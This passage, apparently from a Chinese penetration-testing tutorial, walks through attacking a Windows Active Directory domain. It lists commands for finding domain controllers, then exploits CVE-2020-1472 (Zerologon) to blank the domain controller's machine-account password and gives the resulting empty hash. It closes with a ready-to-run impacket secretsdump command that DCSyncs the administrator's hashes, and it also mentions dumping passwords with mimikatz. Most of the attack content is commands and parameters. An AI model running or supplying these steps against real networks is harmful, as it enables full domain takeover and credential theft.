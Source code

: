 Windows下命令有

```
nslookup –qt=ns 域名
Nslookup -type=SRV _ldap._tcp.域名
```

[![](https://p5.ssl.qhimg.com/t011c41b4a902e83056.png)](https://p5.ssl.qhimg.com/t011c41b4a902e83056.png)

3、如果我们控制了一台域成员机器，可以直接查询。

​ 以下是一些常见的查询命令

```
net time /domain
net group "Domain controllers" /domain 
dsquery server -o rdn
adfind -sc dclist
Nltest /dclist:域名
```

### <a class="reference-link" name="2.%20%E9%87%8D%E7%BD%AE%E5%9F%9F%E6%8E%A7%E5%AF%86%E7%A0%81"></a>2. 重置域控密码

这里利用[CVE-2020-1472](https://github.com/dirkjanm/CVE-2020-1472)来重置域控密码。注意，这里是域控密码，不是域管的密码。是域控这个机器用户的密码。可能对域不是很熟悉的人对这点不是很了解。在域内，机器用户跟域用户一样，是域内的成员，他在域内的用户名是机器用户+$(如DC2016\$)，在本地的用户名是SYSTEM。

机器用户也是有密码的，只不过这个密码我们正常无感，他是随机生成的，密码强度是120个字符，高到无法爆破，而且会定时更新。

我们通过`sekurlsa::logonPasswords`就可以看到机器用户的密码

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t01323c1b0c6a29829b.png)

在注册表`HKLM\SYSTEM\CurrentControlSet\Services\Netlogon\Parameters`

`DisablePasswordChange`决定机器用户是否定时更新密码，默认是0，定时更新

`MaximumPasswordAge`决定机器用户更新的时间，默认是30天。

[![](https://p0.ssl.qhimg.com/t015a112ef9a10f79ac.png)](https://p0.ssl.qhimg.com/t015a112ef9a10f79ac.png)

接下来开始利用

命令在`python cve-2020-1472-exploit.py 机器名 域控IP`

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t019fba9ec14543e30c.png)

这一步会把域控DC2016(即DC2016\$用户)的密码置为空，即hash为`31d6cfe0d16ae931b73c59d7e0c089c0`

接下来使用空密码就可以进行Dcsync(直接登录不行吗？在拥有域控的机器用户密码的情况下，并不能直接使用该密码登录域控，因为机器用户是不可以登录的，但是因为域控的机器用户具备Dcsync特权，我们就可以滥用该特权来进行Dcsync)

这里面我们使用impacket套件里面的`secretsdump`来进行Dcsync。

```
python secretsdump.py   test.local/DC2016\$@DC2016    -dc-ip  192.168.110.16   -just-dc-user test\\administrator -hashes 31d6cfe0d16ae931b73c59d7e0c089c0:31d6cfe0d16ae931b73c59d7e0c089c0
```
